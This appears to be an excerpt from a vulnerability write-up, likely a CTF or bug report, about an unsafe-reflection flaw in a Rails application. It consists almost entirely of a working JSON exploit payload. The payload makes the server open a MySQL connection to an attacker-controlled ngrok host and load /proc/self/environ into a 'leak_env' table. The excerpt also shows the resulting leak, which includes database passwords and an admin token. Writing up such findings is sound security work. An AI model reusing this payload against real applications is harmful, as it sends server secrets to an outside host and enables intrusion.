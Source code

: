 The following JSON POC exploits the unsafe reflection and loads the contents from `/proc/self/environ` into the attacker controlled DB.

```json
{
    "type": "Mysql2::Client",
    "arg": {
        "host": "7.tcp.eu.ngrok.io",
        "username": "hackeruser",
        "password": "sUperDupert0PS3cRetP4S5w))D",
        "database": "hackerdb",
        "port": 16374,
        "local_infile": true,
        "init_command": "LOAD DATA LOCAL INFILE '/proc/self/environ' INTO TABLE leak_env;"
    }
}
```

*leaked `/proc/self/environ` file saved on the hacker DB*
```
MariaDB [hackerdb]> select env from leak_env;
+------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| env                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                    |
+------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| DB_PASSWORD=de13c3cc60e134ff099875230ebfb9e6480635d273a1fea9d6b31f5766b75f59 SUPERVISOR_GROUP_NAME=off-dah-rails HOSTNAME=e21b56bc7873 RUBY_DOWNLOAD_SHA256=f76d63efe9499dedd8526b74365c0c811af00dc9feb0bed7f5356488476e28f4 RUBY_VERSION=3.4.4 PWD=/var/www/off_dah_rails_m8 BUNDLE_APP_CONFIG=/usr/local/bundle _=/var/www/off_dah_rails_m8/bin/rails DB_USER=thefatcontroller HOME=/var/www LANG=C.UTF-8 BUNDLE_SILENCE_ROOT_WARNING=1 GEM_HOME=/usr/local/bundle RUBY_DOWNLOAD_URL=https://cache.ruby-lang.org/pub/ruby/3.4/ruby-3.4.4.tar.xz SHLVL=1 ADMIN_TOKEN=2973c412991451d5c1b9741a22444007e73c3d1412f92a654d23ffadd63ccc45 SUPERVISOR_PROCESS_NAME=off-dah-rails PATH=/usr/local/bundle/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin RAILS_ENV=production MAIL=/var/mail/www-data DEBIAN_FRONTEND=noninteractive SUPERVISOR_ENABLED=1  |
```